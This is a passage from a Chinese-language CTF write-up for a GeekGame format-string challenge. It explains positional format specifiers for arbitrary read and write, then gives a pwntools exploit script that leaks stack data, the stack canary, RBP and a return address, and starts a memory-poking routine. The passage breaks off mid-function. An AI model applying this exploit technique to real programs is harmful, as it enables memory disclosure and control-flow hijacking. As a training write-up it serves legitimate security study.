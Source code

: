 ```python
print(''.join(resp))

conn.close()
```

### Flag 2

学习了一下格式化字符串溢出相关的文献，发现了 `%35$s` 这样的用法，表示把第 35 个参数作为字符串指针打印，是一个 glibc 扩展功能。
同时，还有 `%67$hn`，可以把第 67 个参数当作指针，并把当前已经打印的字节数作为两字节数据写入指针。

利用这种 fmtstring，配合栈布局，可以恰好构造出来 `%35$sPPP{p64(pointer_here)}` 来打印任意地址。
类似的还可以构造一个写入任意内存的 fmtstring。

利用这些操作来复写 retaddr 跳转到 libc 中的 gadgets 即可。

```python
#!/usr/bin/env python
from pwn import *

conn = remote('prob09.geekgame.pku.edu.cn', 10009)
conn.recvuntil(b'Please input your token: ')
conn.sendline(b'{token_here}\n')

conn.recv()
conn.sendline(b'%p' * 35)
resp = conn.recv()

# Flag 1
raw_resp = [t for k in resp.split(b'0x') for t in k.split(b'(')]
print(raw_resp)
resp = raw_resp[26:30]
resp.reverse()
resp = b''.join(resp).decode('utf-8')
if len(resp) % 2 != 0:
  resp = '0' + resp
resp = [resp[i:i+2] for i in range(0, len(resp), 2)]
resp.reverse()
resp = [chr(int(c, base=16)) for c in resp]
print(''.join(resp))

# Leak canary
public_str_addr = int(raw_resp[1].decode(), 16)
print("%x" % public_str_addr)

print("%x" % (public_str_addr + 64 + 64 + 1024))
print(p64(public_str_addr + 64 + 64 + 1024))
print(p64(public_str_addr + 64 + 64 + 1024)[:-2])
conn.send(b'%35$sPPP' + p64(public_str_addr + 64 + 64 + 1024 + 8 + 1) + b'\n')
buf = conn.recv()
print(buf)
print(buf[:7])
canary = u64(b'\x00' + buf[:7])
rbp = u64(buf[7:buf.find(b'P')] + b'\x00\x00')
print('Canary = 0x%x' % canary)
print('RBP = 0x%x' % rbp)

retaddr_addr = public_str_addr + 64 + 64 + 1024 + 24
conn.send(b'%35$sPPP' + p64(retaddr_addr) + b'\n')
buf = conn.recv()
retaddr = u64(buf[:buf.find(b'P')] + b'\x00\x00')
print('RetAddr = 0x%x' % retaddr)

def poke_byte(addr, b):
  print('Poke 0x%x to 0x%x' % (b, addr))
  conn.send(b'A' * b +
```
